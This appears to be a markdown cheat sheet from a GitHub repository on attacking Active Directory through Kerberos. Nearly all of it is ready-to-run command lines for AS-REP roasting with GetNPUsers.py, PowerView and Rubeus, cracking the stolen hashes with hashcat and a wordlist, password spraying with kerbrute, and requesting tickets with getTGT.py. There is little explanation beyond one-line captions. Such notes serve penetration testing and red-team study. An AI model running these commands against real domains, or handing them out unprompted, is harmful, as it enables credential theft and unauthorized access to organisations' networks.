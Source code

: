 &nbsp;
<span style="font-size: 18px; color:white"><b>GetNPUsers.py (ASREP-Roast)</b></span>

<span style="font-size: 15px; color:red"><b>From Linux:</b></span>
Queries target domain for users with 'Do not require Kerberos pre-authentication' set and export their Password Encrypted TGT for cracking.
```shell
GetNPUsers.py -dc-ip <IP> -request '<DOMAIN>'
```

```shell
GetNPUsers.py -dc-ip <IP> <DOMAIN>/<Username>:<password>
```

```shell
GetNPUsers.py -dc-ip <IP> -no-pass -usersfile <USER_LIST> <DOMAIN>/
```

<span style="font-size: 15px; color:red"><b>From Windows:</b></span>
List vulnerable users:
```powershell
Get-DomainUser -PreauthNotRequired -verbose | findstr samaccountname
```
and then get the hash to crack:
```shell
.\Rubeus.exe asreproast /format:hashcat /outfile:<out_file> /user:<username>
```
OR from ASREPRoast.ps1 (https://github.com/HarmJ0y/ASREPRoast)
```powershell
Get-ASREPHash -Username <username> -verbose
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Crack Stolen Hash</b></span>
```
hashcat -m 18200 <dumped_hash> /usr/share/wordlists/rockyou.txt
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Password Spray</b></span>
BruteForce same pasword on all users
```shell
kerbrute passwordspray -d <DOMAIN> --dc <DC_HOSTNAME> <user_list> <password>
```
you can [passwordspry also on smb]().
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Create TGT From Credentials</b></span>
```shell
getTGT.py <DOMAIN>/<user>:<password> -dc-ip <DC_IP>
```
&nbsp;

---